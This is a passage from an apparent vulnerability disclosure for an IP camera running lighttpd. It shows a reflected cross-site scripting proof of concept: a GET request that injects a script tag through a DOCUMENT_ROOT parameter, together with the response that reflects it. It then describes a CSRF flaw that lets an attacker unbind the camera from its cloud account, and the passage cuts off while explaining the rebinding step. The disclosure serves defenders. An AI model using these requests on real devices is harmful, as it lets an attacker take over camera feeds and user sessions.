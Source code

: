 A full example is also shown below:

~~~
GET /index.html?DOCUMENT_ROOT=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	'><script>alert(document.cookie)</script> HTTP/1.1
Host: 192.168.0.10
Referer: http://192.168.0.10/index.html
Cookie: StreamAccount=admin; StreamPassword=[Base64 encoded password]; sess=zj56859s6xbv7id
Connection: close
~~~

The request above returns a response like below:

~~~
HTTP/1.1 200 OK
Content-Type: text/html
Connection: close
Server: lighttpd/1.4.32-devel-27736
Content-Length: 222


<div id='token' style='display:none' value='1yxph57bxp5jftf'></div><div id='n'
style='display:none' value='admin'></div><div id='sec' style='display:none'
value='A'><script>alert(document.cookie)</script>index.html'></div>
~~~

The exploit was verified to work in Firefox.


## Cross-Site-Request-Forgery (CSRF)

The camera can be connected to a cloud-account where it's possible to view the
camera's feed remotely. In the local admin interface it is possible to change
which account the camera should be connected to. The request to connect the
camera to a different account has no CSRF-protection and can therefore be
performed from a different domain.

The exploit is divided into two steps:

1. Unbind the camera from current account.
1. Connect camera to own account.

The HTTP-request to remove current account access to camera is shown below: 

~~~
POST /cloud.fcgi HTTP/1.1
Host: 192.168.0.10
Referer: http://192.168.0.10/index.html
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Content-Length: 14
Cookie: StreamAccount=admin; StreamPassword=[Base64 encoded password]; sess=zj56859s6xbv7id
Connection: close

command=unbind
~~~

The HTTP-request to connect camera feed to an account is shown below. Below is a
description of the parameters:
